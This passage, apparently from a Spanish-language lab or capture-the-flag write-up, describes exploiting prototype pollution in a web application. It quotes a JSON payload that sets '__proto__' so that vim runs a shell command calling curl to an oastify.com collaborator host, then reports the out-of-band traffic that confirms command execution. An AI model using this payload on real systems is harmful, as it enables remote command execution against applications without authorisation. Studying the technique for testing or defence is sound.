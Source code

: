 El payload utilizado es:

```json
,"__proto__": {
    "shell":"vim",
    "input":":! curl https://em4or21l4n6gh8j45x85zbha51btzlna.oastify.com\n"
}
```

Luego de lo anterior, clickeamos en el button de "iniciar tarea":

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Y luego de enviar la petición previa sobre actualización de datos y enviar la petición de inicio de tarea, se detecta trafico en el collaborator:

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>
